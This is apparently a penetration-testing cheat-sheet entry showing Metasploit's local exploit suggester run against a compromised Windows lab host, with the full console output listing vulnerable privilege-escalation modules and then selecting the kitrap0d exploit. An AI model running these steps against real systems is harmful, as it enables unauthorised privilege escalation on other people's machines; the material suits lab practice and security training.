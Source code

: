 ### Metasploit local exploit suggester

https://www.rapid7.com/blog/post/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/

```
use post/multi/recon/local_exploit_suggester

options -> set session number

run

msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...


[*] 10.10.10.5 - 30 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf5 post(multi/recon/local_exploit_suggester) >
msf5 post(multi/recon/local_exploit_suggester) >
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d
```
